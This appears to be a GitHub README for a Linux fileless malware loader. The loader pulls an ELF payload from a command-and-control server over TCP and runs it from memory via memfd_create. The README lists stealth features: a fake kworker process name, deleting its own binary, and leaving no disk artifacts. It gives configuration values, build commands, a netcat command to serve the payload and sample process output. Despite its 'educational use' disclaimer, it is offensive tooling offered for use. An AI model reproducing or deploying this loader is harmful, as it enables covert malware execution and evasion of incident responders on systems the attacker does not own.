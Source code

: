 
## Fileless In-Memory Loader Linux 

This tool implements a fileless, in-memory ELF loader for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a raw ELF payload, and executes it entirely from memory using memfd_create().

> ⚠️ **For educational and authorized use only.** Do not use on systems you do not own or have explicit permission to operate on.

### Key Features
 * Uses memfd_create() to create a memory-backed, executable file descriptor
 * Pulls payload from a configurable C2 IP and port over a socket connection
 * Executes the ELF binary directly from memory via /proc/self/fd/<fd>
 * Applies a fake process name (argv[0]) for stealth in `ps`, `top`, etc.
 * Deletes itself from disk (via unlink("/proc/self/exe")) after execution
 * Leaves no payload or loader trace on the filesystem after startup

### Configuration

Inside `loader.c`, you can configure the following parameters:

```c
const char *C2_IP        = "127.0.0.1";              // C2 IP
const int   C2_PORT      = 1111;                     // C2 port
const char *FAKE_PROC    = "[kworker/0:1-events]";   // Shown in `ps` output
const char *FD_NAME      = "error";                  // Shown in `cat /proc/<pid>/maps` as `[memfd:error (deleted)]`
const char *PROC_LINK    = "";                       // Detault empty. Shown in `cat /proc/<pid>/status` as `Name: <filename>`.
````

You can choose between two execution workflows:
1. **In-Memory Only (default)**: If `PROC_LINK` is left empty, the payload is injected and executed entirely from memory using `memfd_create()`. While this leaves no trace on disk, a side effect is that the process name shown in `/proc/<pid>/status` appears as a numeric string (e.g., `Name: <fd>`).
2. **Temporary Symlink Execution**: If `PROC_LINK` is set, a short-lived symbolic link (\~1 second) is created pointing to the memory file descriptor (e.g., `/proc/self/fd/<fd>`). The payload is then executed via this symlink. This allows you to define a custom process name—ideally mimicking legitimate system processes like `kworker` or `rcu_sched`—to improve stealth. After execution, the symlink is unlinked to avoid leaving artifacts on disk. 

### Usage

1. Compile the Loader

```bash
gcc -o loader loader.c
gcc -o payload.elf test-payload.c
```

2. Start the C2 (e.g., Netcat)

```bash
ncat -lvnp 1111 < payload.elf
```

3. Run the Loader

```bash
./loader
```

If successful:

* The loader deletes itself
* The payload executes in memory
* The process appears with the fake name (`[kworker/u!0]`)
* Nothing is left on disk

## Forensics traces

```bash
$ ps aux | grep kworker
root      1233  0.0  0.0   2196  1200 ?        Ss   13:47   0:00 [kworker/0:1-events]
root      1235  0.0  0.0   3040  1428 pts/2    S+   13:47   0:00 grep kworker
$ cat /proc/1233/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1025                               /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1025                               /memfd:error (deleted)
00420000-00421000 rw-p 00010000 00:01 1025                               /memfd:error (deleted)
```
